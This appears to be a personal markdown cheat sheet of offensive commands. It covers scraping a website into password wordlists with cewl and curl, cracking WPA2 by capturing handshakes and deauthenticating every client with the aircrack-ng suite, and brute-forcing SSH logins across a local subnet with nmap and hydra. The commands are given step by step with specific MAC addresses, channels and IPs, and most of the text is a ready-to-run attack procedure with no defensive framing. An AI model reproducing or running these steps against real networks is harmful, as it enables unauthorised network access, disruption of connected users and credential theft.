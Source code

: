 ## Wordlist Crawler 

- sudo apt install cewl 

- `cewl -d 1 -m 8 -w wordlist-d1m8-samecase.txt https://avengers.marvelhq.com/` 
- `cewl -d 1 -m 8 -w wordlist-d1m8-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 2 -m 8 -w wordlist-d2m8-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 1 -m 1 -w wordlist-d1m1-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 1 -m 1 -w wordlist-d1m1-samecase.txt https://avengers.marvelhq.com/` 
- `cewl -d 2 -m 1 -w wordlistd2m1-d2m1-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 

```sh
curl "https://avengers.marvelhq.com/" | sed 's/[^a-zA-Z ]/ /g' | tr 'A-Z ' 'a-z\n' | grep '[a-z]' | sort -u > wordlist.txt
``` 

## WPA2 Brute Force 

- The shortest password allowed with WPA2 is 8 characters long
- sudo su 
- echo <password> | sudo -S <command>

### Start and Check Wifi Adapter Monitor Mode

- iwconfig

- airmon-ng check kill
- airmon-ng
- airmon-ng start wlan0

### Attack 1 (Moodle)

1. airmon-ng

2. macchanger --mac 00:11:22:33:44:55 wlan0

3. macchanger -s wlan0  (60:a4:b7:22:74:9f)

4. airmon-ng start wlan0

5. airodump-ng wlan0

to retrieve bssid mac and chanel

6. airodump-ng -c 1 -w file --bssid 48:29:52:46:92:CB wlan0

7. aireplay-ng --deauth 1 -a 48:29:52:46:92:CB -c 60:a4:b7:22:74:9f wlan0

8. aircrack-ng -w wordlist.txt file-01.cap


### Discover information about router

To retrieve MAC ADDRESS, CHANNEL and ESSID use:

- sudo airodump-ng wlan0
    - MA => 48:29:52:46:92:CB
    - CH => 1
    - ESSID => Casa_wifi

### Attack 2

1. To check station connected to the router:

- sudo airodump-ng -c 1 wlan0 -d 48:29:52:46:92:CB 
    -  Specify the channel to use aireplay correctly

2. Run this analyzes packets before deauth everyone to writes handshake to a file:

- sudo airodump-ng -w hacktest -c 1 --bssid 48:29:52:46:92:CB wlan0

3. To forces deauth everyone:

- sudo aireplay-ng --deauth 0 -a 48:29:52:46:92:CB wlan0

4. Uses the hack01-01.cap to analyze in wireshark: search for ***eapol** which is the handshake protocol used to auth

5. Check for the second message of the handshake in:
    - 802.1X authentication
    - WPA KEY DATA: 30140100000fac040100000fac040100000fac020c00
    - the handshake packets is needed to step 6 can try a bunch of random passwords...

- :warning: we can skip the step 4 e 5 above and just try the step 6 and with lucky it works :warning: 

6. sudo aircrack-ng hack-01.cap -w wordlist.txt
    - and the outputs should appear !!!
    - sudo aircrack-ng hack01-01.cap -w /usr/share/wordlists/rockyou.txt

## SSH Brute Force
- sudo service NetworkManager restart
- iwconfig

- ifconfig
- sudo nmap -sP 192.168.15.0/24
- sudo nmap -sP 192.168.15.0/24 -p 80,22

----- 
- sudo nmap 192.168.15.* -p ssh --open


- sudo nmap 192.168.15.* --open
-----

- ssh user@ipaddress

- hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.15.1 -t 4 ssh

- hydra -L /usr/share/wordlists.rockyou.txt -P /usr/share/wordlists/rockyou.txt -M Documents/ip.txt -t 4 ssh

-L list of users
-M list of ips